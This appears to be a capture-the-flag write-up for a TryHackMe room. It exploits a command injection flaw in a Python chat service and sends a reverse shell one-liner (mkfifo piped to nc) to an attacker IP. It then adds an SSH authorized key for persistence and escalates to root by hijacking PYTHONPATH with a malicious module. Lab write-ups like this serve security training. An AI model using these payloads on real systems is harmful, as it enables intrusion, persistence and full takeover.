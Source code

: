  #python

https://tryhackme.com/r/room/jpgchat

---
#### Nmap
![[Screenshot_2024-06-11_09-22-24.png]]

So I went to the port `3000`, it was a chat telling me that the source code is somewhere on the internet ([github](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py))

I started to setup a netcat connexion with
```shell
nc 10.10.28.222 3000
```

Then I followed the instruction to send a report by typing `[REPORT]`.

Tu vulnerability is here
```python
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

So I'll use the following payload and setup a listener
```shell
'hello'; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.61.68 9001 >/tmp/f;
```

And here I am in 

I decided to setup a more stable ssh connexion with
```shell
ssh-keygen -t rsa -b 4096 -f ./id_rsa
```

Then I created a `.ssh/authorized_keys` in `wes`'s home and I just had to connect throught ssh
```shell
ssh wes@10.10.28.222 -i ./id_rsa
```

Then the  `sudo -l` gave me the following command
![[Screenshot_2024-06-11_10-20-07.png]]

The environment variable `PYTHONPATH` is used to setup the path for python's module and the `test_module.py` that I can run as sudo is importing  the `compare` module

So I setup the `PYTHONPATH` 
```shell
export PYTHONPATH=/opt/jpchat/
```

I then created a `compare.py` file with the following payload
```python
import os
os.system('cat /root/root.txt > /tmp/root')
```

And there is a root flag
